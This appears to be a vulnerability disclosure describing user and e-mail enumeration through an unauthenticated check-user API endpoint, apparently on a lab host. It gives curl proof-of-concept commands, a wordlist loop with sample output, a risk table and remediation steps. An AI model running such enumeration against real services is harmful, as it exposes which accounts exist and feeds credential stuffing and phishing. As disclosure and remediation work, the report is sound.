



# Description

Username / e-mail enumeration (CWE-203 — Observable Discrepancy) via the unauthenticated boolean oracle `GET /api/check-user/?email=<candidate>`. The endpoint returns `{"exists": true|false}` based on whether an account matches, with **no authentication, rate-limiting, or CAPTCHA**. It matches against both usernames (`arthur`) and registered e-mails (`arthur@tbox.traced`), doubling the attack surface and letting an anonymous attacker enumerate the entire user base from a wordlist.

# Exploitation

A single GET reveals existence:

```
GET /api/check-user/?email=<candidate>
→ {"exists": true}   (exists)
→ {"exists": false}  (absent)
```

No cookie, no header, no anti-bot control — only network access is required.

# PoC

**1. Confirm the unauthenticated oracle:**

```bash
curl -i "http://<TARGET>/api/check-user/?email=arthur"
# HTTP/1.1 200 OK
# {"exists": true}
```



**2. Drive it with a wordlist:**

```bash
for c in arthur admin johndoe nonexistent_xyz fake@example.com; do
  echo "$c → $(curl -s "http://<TARGET>/api/check-user/?email=$c")"
done
# arthur          → {"exists": true}
# admin           → {"exists": true}
# johndoe         → {"exists": true}
# nonexistent_xyz → {"exists": false}
```



**3. Dual matching on username *and* e-mail:**

```bash
curl -s "http://<TARGET>/api/check-user/?email=admin@tbox.traced"   # {"exists": true}
```



# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | Confirms which usernames/e-mails are registered, including `admin`. |
| Integrity | Feeds credential-stuffing and targeted phishing (real e-mail list). |
| Availability | None directly. |

Overall severity: **Medium** — unauthenticated, machine-readable, no rate-limit; a strong precursor to account-takeover chains.

# Remediation

1. **Require authentication / move the check behind the CSRF-protected signup & reset flows** that legitimately need it.
2. **Return a uniform, non-committal response** for all states.
3. **Rate-limit per IP and add CAPTCHA** on the flows that use this check internally.
4. **Audit login/reset/resend-verification** for the same observable-discrepancy anti-pattern.

# Author
Hackrapovic
